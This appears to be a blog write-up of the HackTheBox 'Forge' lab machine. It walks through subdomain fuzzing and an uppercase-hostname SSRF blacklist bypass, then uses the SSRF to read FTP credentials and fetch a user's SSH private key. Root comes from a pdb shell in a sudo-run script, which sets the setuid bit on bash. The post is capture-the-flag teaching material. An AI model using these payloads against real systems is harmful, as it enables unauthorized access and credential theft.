 ```yaml
---
layout: posts
title:  "Forge"
dates:   January 2022
tag:	hackthebox
categories: hackthebox
image: ""
author: "OREOSEC"
---
```

**Bismillah**

I'll cover Forge machine (medium) from HackTheBox this box based on Linux system. As usual challenge from HackTheBox machine is we must owned fully system (privelege escalation) for getting user.txt and root.txt.

Intro
----

This box is actually simple process on gaining system without any scripting or confusing exploit. FYI because of it's simplicity, this box can get first blood in just a dozens of minutes LoL.

This content
------------

*   [Nmap port scanning](#nmap)
*   [DNS Fuzzing](#fuzz)
*   [Web service identification](#web)
*   [SSRF Bypassing](#ssrf)
*   [Shell as user](#user)
*   [Gaining root](#root)

Enumerate
-----

### Nmap Scanning {#nmap}

Let's begin with enumeration using nmap for disover opening port on victim

```bash
sudo nmap -sCV -oN nmap/serv 10.10.11.111
```

**explanation**

*   \-s: Scanning TCP port mode
*   C: using nmap common-script for service was aimed
*   V: show version for service
*   \-oN nmap/serv: write output to nmap/serv file
*   10.10.11.111: Forge's/Machine's IP

![alt nmap scan](/assets/img/forge/nmap.png)

We discovered 21(ftp) but filtered, 22(ssh), 80(http)

### DNS Fuzzing {#fuzz}

While visiting website this page just redirecting on forge.htb, so we add forge.htb on /etc/hosts file. Let's fire up ffuf to fuzz on vhost machine's

``` bash
ffuf -c -u "http://forge.htb" -H "Host: FUZZ.forge.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 50 -r  -fs 2050
```
![alt ffuf](/assets/img/forge/ffuf.png)

We can able get admin.forge.htb subdomain and add on /etc/hosts again.

Admin page content:

![alt discover admin subdomain](/assets/img/forge/admin-forge.png)

Seems we don't have permission on this site.

### Checking web service {#web}

This page just content image gallery

![alt web service](/assets/img/forge/web-index.png)

visit upload image page:

![alt upload image page](/assets/img/forge/upload-page.png)

when i try to uploading some image to get reverse shell,i just got like this:

![alt try to upload](/assets/img/forge/try-upload.png)

### SSRF bypassing {#ssrf}

so i try to entering http://127.0.0.1 to "upload from url" and it shown below:

![alt try ssrf payload](/assets/img/forge/try-localhost-web.png)

hmmm... it's interesting.. it's look like Server Side Request Forgery (this is why box name Forge) so i just think if we've admin subdomain, so i decide to try bypassing blacklist for this form with my "Caps Lock".

payload:

```bash
http://ADMIN.FORGE.HTB/announcements
```

![alt bypass ssrf blacklist](/assets/img/forge/bypass-ssrf.png)

And success :) we can open url from curl 

![alt curl output](/assets/img/forge/open-curl.png)

### Shell as user {#user}

As you can see there's /announcements page and we can try to use this payload to get content 

payload:

```bash
http://ADMIN.FORGE.HTB/announcements
```

we got some useful information from this page which content credentials and method for uploading an image

```html
 <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
 <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
 <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
```

Tried method to accessing ftp from ssrf by again submitting URL

payload:

```bash
http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB
```

```bash
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Jan 24 06:31 user.txt
```

it's look like home directory of user :D so we can try to get ssh id_rsa in here

payload:

```bash
http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB/.ssh/id_rsa
```

and we got this to login on user ssh

![alt id_rsa](/assets/img/forge/id_rsa.png)

```bash
chmod 600 id_rsa
ssh user@forge.htb -i id_rsa

```

### Gaining root access {#root}

Tried some command to check permission on sudo 


```bash
user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
user@forge:~$
```


/opt/remote-manage.py content:


```python
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```


it's just look like some python socket server with python debugger module.. so we run this script with sudo and connect it on another ssh session 


```bash
user@forge:~$ sudo python3 /opt/remote-manage.py
Listening on localhost:63624
```


when we enter randomly character (or make this some exception) .. the debugger will be open on socket server


```bash
user@forge:~$ sudo python3 /opt/remote-manage.py
Listening on localhost:63624
invalid literal for int() with base 10: b'kjsfhaslaj'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb)
```

so we can execute any python command in here


```bash
(Pdb) import os
(Pdb) os.system('chmod u+s /bin/bash')
0
(Pdb)
user@forge:~$ bash -p
bash-5.0# whoami
root
bash-5.0#
```

<div class="tenor-gif-embed" data-postid="18638117" data-share-method="host" data-aspect-ratio="1.54589" data-width="100%"><a href="https://tenor.com/view/done-so-done-im-done-monkey-throw-gif-18638117">Done So Done GIF</a>from <a href="https://tenor.com/search/done-gifs">Done GIFs</a></div> <script type="text/javascript" async src="https://tenor.com/embed.js"></script>











